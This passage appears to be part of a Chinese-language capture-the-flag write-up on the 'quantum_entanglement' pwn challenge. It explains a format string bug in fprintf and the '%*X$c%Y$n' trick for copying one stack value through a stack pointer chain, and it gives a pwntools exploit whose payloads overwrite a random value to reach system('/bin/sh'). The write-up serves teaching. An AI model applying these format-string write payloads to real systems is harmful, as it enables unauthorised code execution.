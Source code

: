 ```
  if ( v8 != v4 )
    exit(1);
  system("/bin/sh");
  return 0;
`}`
```

程序逻辑就是mmap出两块4字节的内存，然后分别往里面读入4字节的随机数，然后将两个随机数分别与上`0xCAFEBABE`和`0xBADBAD`，接着再接收两次13字节的输入，作为参数传入log_in函数，log_in函数之后对v8和v4进行比较，如果相等则执行system(“/bin/sh”)

在fprintf函数中存在格式化字符串漏洞

这里需要用到一个新的知识点

`%*X$c%Y$n`会把栈中偏移X处的值赋给栈中偏移Y处的指针指向的地址

在执行fprintf的时候站空间如下

[![](https://p2.ssl.qhimg.com/t01825479143bb1b64b.png)](https://p2.ssl.qhimg.com/t01825479143bb1b64b.png)

在0055的栈空间出残留着第一个随机数地址的后四位，0050的栈空间是第二个随机数，它们的相对偏移如下

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p1.ssl.qhimg.com/t01043b01213d53964e.png)

但是因为在fprintf函数中，格式化字符串并不是第一个参数，是第二个，和printf函数有所不同，所以这里fprintf函数格式化字符串的偏移都需要-1

这题的思路依然是在栈中找栈链，然后将栈链中的一条链的后四位修改成第一个随机数地址的后四位，然后再修改第一个随机数的值为第二个随机数，找到如下这条链

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p2.ssl.qhimg.com/t0192941e49336fff48.png)

exp如下

```
from pwn import *
context.log_level='debug'
io=process('./quantum_entanglement')
elf=ELF('./quantum_entanglement')

payload1='%*19$c%44$hn' #将%44位置处的栈链修改到指向第一个随机数
payload2='%*18$c%118$n' #一次性将第二个随机数写入到第一个随机数的地址
io.recvuntil('FirstName:')
io.sendline(payload1)
#gdb.attach(io)
io.recv()
io.sendline(payload2)
io.interactive()
```

修改栈链后栈空间如下

[![](https://p2.ssl.qhimg.com/t01fc0569bd8d8de251.png)](https://p2.ssl.qhimg.com/t01fc0569bd8d8de251.png)

